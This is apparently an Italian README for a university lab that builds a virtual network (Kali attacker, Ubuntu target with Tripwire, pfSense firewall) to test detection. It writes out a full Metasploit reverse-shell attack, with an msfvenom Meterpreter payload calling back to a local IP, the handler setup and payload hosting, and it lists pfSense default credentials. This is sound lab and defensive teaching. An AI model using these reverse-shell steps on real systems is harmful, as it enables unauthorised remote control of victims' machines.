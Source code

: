 

# ProjectAdvancedCybersecurity
Il seguente repository ha lo scopo di illustrare come configurare una rete di macchine virtuali al fine di testare alcuni software legati alla sicurezza informatica. L' architettura viene riportata in figura.

![Architettura](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Screened-Network.drawio.png)

Le macchine virtuali sono le seguenti: 
 - **Target**: Ubuntu 22.04.2 LTS (con installato *Tripwire*)
 - **Attacker**: Kali 2023.1 (con installato *python3*)
 - **Firewall**: Pfsense 2.6.0 (con i pacchetti *Squid* e *Snort*)

Di seguito verranno esplicitati tutti i passi sia per simulare uno scenario di attacco a cui la nostra infrastruttura dovrà rispondere.
> Nota: nel repository si trovano le macchine già configurate (potrebbero esserci delle differenze nell'assegnazione degli indirizzi IP alle varie interfacce di rete o in ulteriori parametri)

***mettere configurazione adpter 

## Kali Attacker
Per effettuare l'attacco la macchina kali necessita di avere installato python3. 
```bash
sudo  apt update &&  sudo  apt upgrade -y
```
```bash
sudo apt install python3
```
Fatto ciò  si può procedere ad effettuare un attacco di reverse shell TCP verso la macchina target tramite *Metasploit*. Aprire 4 terminali:

 1. **Terminale**: Ottenere indirizzo ip dell'interfaccia di rete della macchina kali 
 ```bash
ifconfig
```
 
 2. **Terminale**: Creare il pacchetto malevolo (eseguibile)
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.18 LPORT=4444 -f elf -o Desktop/payloads/shell-x86.elf
```
Analizziamo i vari parametri:

-   _msfvenom_: il nome del programma principale, metasploit
-   _-p_: il payload da inserire. Può essere uno scritto da noi o, più comodamente, uno già presente in Metasploit.
-   _LHOST_: l'indirizzo IP al quale l'app infettata si connetterà. Può essere un indirizzo locale come un indirizzo esterno.
-   _LPORT_: la porta da utilizzare. Quella di default è proprio la 4444.
-  _-f_: formato del pacchetto
-   _-o_: il percorso dove andremo a salvare l'applicazione ricompilata, contenente il payload.

 3. **Terminale**: Ora dobbiamo essere pronti per accettare la connessione, quindi prepariamo una sessione attraverso metasplot.
```bash
msfconsle
```
Una volta aperta la console:
```bash
msf6> use multi/handler
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.18
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse handler on 192.168.1.18:4444
[*] Starting the payload handler...
```
Una volta che la vittima avrà installato ed eseguito il file *.elf*  verrà aperta una sessione con una reverse shell che permetterà alla macchina kali infettare il target. Come esempio è stato eseguito un cambio di permessi ad una cartella
 ```bash
meterpreter > sudo chmod o+x ./DirectoryTarget
```

 4. **Terminale**: Per far ricevere il pacchetto alla macchina target viene esposto un web server al quale sarà possibile scaricare il file *shell-x86.elf*. (prima entrare nella cartella in cui è il file)
```bash
cd Desktop/payloads
sudo python -m http.server 80
```

## Ubuntu Target
Nella macchina target la prima cosa da fare è installare Tripwire che ci permetterà di rilevare l'attacco compiuto dall'attaccante
```bash
sudo apt-get update
sudo apt-get install tripwire
```
Lasciando inalterate le impostazioni di configurazione di default, Tripwire ti chiederà di creare due chiavi.

-   **site key** : questa chiave viene utilizzata per proteggere i file di configurazione. Dobbiamo assicurarci che i file di configurazione non vengano modificati, altrimenti non ci si può fidare del nostro intero sistema di rilevamento. 
    
-   **local key** : questa chiave viene utilizzata su ogni macchina per eseguire i binari. Ciò è necessario per garantire che i nostri file binari non vengano eseguiti senza il nostro consenso.

>  Nota: assicurati di scegliere passphrase non facilmente deducibili

 1.Inizializzare il database 
----------

Ora possiamo inizializzare il database che tripwire utilizzerà per convalidare il nostro sistema. Questo utilizza il file delle policy e controlla i punti specificati all'interno. Poiché questo file non è stato ancora personalizzato per il nostro sistema, avremo molti avvisi, falsi positivi ed errori. Useremo questi come riferimento per mettere a punto il nostro file di configurazione. Il modo di base per inizializzare il database è eseguendo:

```bash
sudo tripwire --init
```

Questo creerà il nostro file di database e genererà alcuni *warnings* che dobbiamo regolare nella configurazione.  Possiamo eseguire il comando `check` e posizionare i file elencati in un file chiamato `test_results`nella nostra directory di configurazione di tripwire:

```bash
sudo sh -c 'tripwire --check | grep Filename > test_results'
```

Se esaminiamo questo file, dovremmo vedere voci simili a questa:

```bash
less /etc/tripwire/test_results
```
```bash
Filename: /etc/rc.boot
Filename: /root/mail
Filename: /root/Mail
Filename: /root/.xsession-errors
. . .
```
2.Configurazione file delle policy 
----------

Ora che abbiamo un elenco di file che attivano tripwire, possiamo esaminare il nostro file di policy e modificarlo per eliminare questi falsi positivi. Apri il file *twpol.txt* nel tuo editor con i privilegi di root:
```bash
sudo nano /etc/tripwire/twpol.txt
```
Eseguire una ricerca per ciascuno dei file restituiti in`test_results`. Commenta tutte le righe che trovi corrispondenti. Fatto ciò, crea una nuova regola, dandogli un nome e un livello di gravità: `severity = $(SIG_HI)`.  Nel corpo verranno indicate le directory o i file a quali verrà applicata la regola che in questo caso è `$(SEC_INVARIANT) (recurse = 0)`; ossia non sono tollerati cambi di permessi o di proprietà nel primo livello della directory.

![rule](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Tripwire%20rule.png)

Salva e chiudi il file al termine delle modifiche. Ora che il nostro file è configurato, dobbiamo implementarlo ricreando il file di policy crittografato che tripwire effettivamente legge:

```bash
sudo twadmin -m P /etc/tripwire/twpol.txt
```
Dopo che questo è stato creato, dobbiamo reinizializzare il database per implementare la nostra politica:

```bash
sudo tripwire --init
```
```
Please enter your local passphrase:
Parsing policy file: /etc/tripwire/tw.pol
Generating the database...
*** Processing Unix File System ***
Wrote database file: /var/lib/tripwire/tripit.twd
The database was successfully generated.
```
3.Predisposizione all'attacco
----------
Per far si che la macchina target subisca l'attacco è necessario che scaricare l'eseguibile esposto dalla macchina kali attraverso il web server. Dunque, collegandosi all'indirizzo `192.128.1.28/ 80` è possibile scaricare il file ed eseguirlo tramite i seguenti comandi: 
```bash
sudo chmod +x ./shell-x86.elf ##Concediamo diritti per esecuzione
./shell-x86.elf ##Esecuzione
```
Fatto ciò la macchina sarà infetta. Una volta avvenuto l'attacco lanciando il comando 
```bash
sudo tripwire --check 
```
inizierà la procedura di verifica la quale restituisce il seguente report di output:

![report](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Tripwire%20detect.png)

## Pfsense Firewall
L'ultima macchina virtuale da inserire all'interno della reta sarà Pfsense, un distribuzione firewall open-source basata sul sistema operativo FreeBSD. Una volta finita la configurazione iniziale della macchina (opzioni di default), il primo step da affrontare è quello di impostare un nuovo indirizzo IP all'interfaccia di rete LAN. In generale, l'indirizzo che viene attribuito può essere quello del router domestico (es: 192.168.1.1) o potrebbe non essere impostato. Dunque per impostarne uno manualmente (es: 192.168.1.2) basterà attivare il menù dedicato inviando il tasto `2`

![pfsensemenu](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Pfsense%20menu.png)

Fatto ciò, nella macchina target sarà possibile impostare come gateway tale interfaccia: 
```bash
sudo ip route add default via 192.186.1.2
```
 permettendo così a Pfsense di interporsi tra il router e la macchina Ubuntu. 
 
 1.Configurazione Pfsense
----------
Dalla macchina  Ubuntu attraverso un qualsiasi web browser sarà possibile accedere alla GUI per la configurazione di Pfsense (`http://192.168.1.2`) inserendo le credenziali di default: 

 - **Username**: *admin*
 - **Password**: *pfsense*

## Autori

- [Mattia Scuriatti](https://github.com/Me77y99)
- [Gatti Giada](https://github.com/S1090231)

